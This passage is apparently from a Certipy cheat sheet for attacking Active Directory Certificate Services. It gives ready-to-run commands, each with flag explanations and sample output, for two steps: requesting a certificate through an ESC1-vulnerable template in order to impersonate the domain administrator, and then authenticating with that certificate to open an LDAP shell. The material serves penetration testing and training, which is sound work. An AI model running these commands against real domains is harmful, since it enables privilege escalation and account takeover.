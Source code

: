 **Example Output**:
```
[*] Saved text output to adcs_enum.txt
[*] Saved BloodHound data to adcs_enum_bloodhound.zip
[*] Found CA: CA01.example.local\CA01-CA
[*] Vulnerable templates: UserTemplate (ESC1), MachineTemplate (ESC2)
```

**Use Case**: Identifies misconfigured templates and CAs for exploitation.

### 2. Requesting Certificates (Req)
**Purpose**: Request certificates, often exploiting misconfigured templates (e.g., ESC1).

**Command**:
```bash
certipy-ad req -u 'user1@example.local' -p 'Password123' -dc-ip 192.168.1.100 -ca CA01-CA -template UserTemplate -target administrator@example.local -pfx admin.pfx -upn administrator@example.local
```
**Flag Explanations**:
- `-u 'user1@example.local'`: Username for authentication.
- `-p 'Password123'`: Password for the user.
- `-dc-ip 192.168.1.100`: Domain controller IP for LDAP queries.
- `-ca CA01-CA`: Specifies the target Certificate Authority (format: `CAName-CA`).
- `-template UserTemplate`: Requests a certificate based on the specified template.
- `-target administrator@example.local`: Sets the target identity (SAN) to impersonate (for ESC1).
- `-pfx admin.pfx`: Saves the certificate and private key in PFX format.
- `-upn administrator@example.local`: Specifies the User Principal Name for the certificate’s SAN.

**Example Output**:
```
[*] Successfully requested certificate
[*] Saved to admin.pfx
```

**Use Case**: Obtains a certificate to impersonate a privileged user.

### 3. Authenticating with Certificates (Auth)
**Purpose**: Use a certificate for Kerberos (PKINIT) or Schannel authentication.

**Command**:
```bash
certipy-ad auth -pfx admin.pfx -dc-ip 192.168.1.100 -ldap-shell -username administrator
```
**Flag Explanations**:
- `-pfx admin.pfx`: Specifies the PFX file containing the certificate and private key.
- `-dc-ip 192.168.1.100`: Domain controller IP for authentication.
- `-ldap-shell`: Starts an interactive LDAP shell with the authenticated user’s privileges.
- `-username administrator`: Specifies the username associated with the certificate (optional for disambiguation).

**Example Output**:
```
[*] Authenticated as administrator@example.local
[*] Starting LDAP shell...
```
